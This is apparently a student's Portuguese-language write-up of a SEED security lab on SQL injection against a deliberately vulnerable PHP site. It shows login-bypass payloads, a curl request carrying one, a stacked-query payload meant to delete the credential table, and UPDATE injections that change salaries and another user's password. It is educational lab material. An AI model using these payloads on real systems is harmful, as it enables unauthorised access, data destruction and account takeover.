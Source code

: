 # Semana 8 - SQL Injection Attack

## Task 1 - Get Familiar with SQL Statements

Após correr `show tables` no terminal do `mysql`, conseguimos observar que há 1 tabelas: **credential**<br>
Portanto, se quisermos ver todas as entries da tabela **credential**, podemos fazer:

```sql
SELECT * FROM credential;
```

O resultado é o seguinte:

![image](Semana_8\images\image.png)

Alternativamente, como o que é pedido é especificamente para o utilizador **Alice**, podemos fazer:

```sql
SELECT * FROM credential WHERE Name = "Alice";
```


## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - SQL Injection Attack from webpage

Para autenticar um utilizador, é utilizado o seguinte código no ficheiro `unsafe_home.php`:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

Como podemos observar, os parâmetros não são sanitizados, o que cria uma vulnerabilidade de **SQL Injection**.<br>
Devido a esta vulnerabilidade, como sabemos que o user da conta administrativa tem username `admin`, então podemos dar login com os seguintes dados

![image](Semana_8\images\image2.png)

Após submeter os dados, a seguinte query será realizada pelo servidor:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= 'admin'# and Password='$hashed_pwd'";
```

Com isto, conseguimos ser autenticados na conta do **admin**, mesmo sem saber a password.

|[image](Semana_8\images\image3.png)


### Task 2.2 - SQL Injection Attack from command line

Esta task é semelhante à anterior, mas pela command line, ou seja, temos que mandar um request utilizando o comando `curl`.<br>

Para fazer isso, inserimos o seguinte comando no terminal:

`curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="`

Neste caso, como precisamos de escapar o caracter `'` e `#` eles são representados com `%27` e `%23`, respetivamente. 

Isto vai fazer com que o servidor faça a mesma query à base de dados que fez na task anterior e temos acesso ao código html da página com a tabela **credential**.

![image](Semana_8\images\image4.png)

### Task 2.3 - Append a new SQL statement

Para tentar tornar um SQL statement em 2, podemos inserir os seguintes dados no login:

`admin'; DELETE * FROM credential; #`

Isto vai eliminar todas as entries na tabela **credential**.<br>
No entanto, quando tentamos fazer isto, recebemos a seguinte mensagem:

![image](Semana_8\images\image5.png)

Após ler a documentação, descobrimos que, para funcionar, era necessário usar-se a função `multi_query()`.

![image](Semana_8\images\image6.png)

Como é utilizada a função `query()`, o nosso ataque que tenta tornar 1 SQL statements em 2 não funciona.

## Task 3 - SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

Após olhar para o ficheiro `unsafe_edit_backend`, notamos que, tal como para fazer login, a query à base de dados não sanitiza os parâmetros, portanto está vulnerável a ataques de SQL Injection.<br>
Embora no site não tenhamos a opção para editar o salário, com um ataque de SQL Injection isso é possível da seguinte forma:

![image](Semana_8\images\image7.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='Rua da Cedofeita', salary='1000000',Password='', PhoneNumber='' where ID=$id;"
```

No final, o perfil da Alice ficou assim:

![image](Semana_8\images\image8.png)

Como podemos observar, o salário da Alice agora é 1000000.

### Task 3.2 - Modify other people’ salary

Para mudar o salário de outra pessoa, podemos fazer um ataque semelhante ao que fizemos na task anterior, exceto que também temos que adicionar uma condição para o ID de outro utilizador.<br>

![image](Semana_8\images\image9.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='',Password='', PhoneNumber='1',salary='1' where ID=2 #where ID=$id;"
```

Após fazer `select * from credential` no terminal, conseguimos observar que o utilizador com ID = 2, o **Boby**, tem agora Phone Number = 1 e Salary = 1.

![image](Semana_8\images\image10.png)

### Task 3.3 - Modify other people’ password

Para mudar a palavra passe de outra pessoa, usamos uma técnica semelhante às anteriores, mas agora alteramos a password. Decidimos alterar a password do utilizador Boby (ID = 2) para `123`. 

![image](Semana_8\images\image11.png)

Após entrar no perfil do Boby, conseguimos ver que o Phone Number é 1

![image](Semana_8\images\image12.png)

Se formos à base de dados e fizermos `select * from credential` observamos o seguinte:

![image](Semana_8\images\image13.png)

Como podemos ver, a **password** do Boby é `40bd001563085fc35165329ea1ff5c5ecbdbbeef`, que é `123` depois de ser encriptado com criptografica sha1.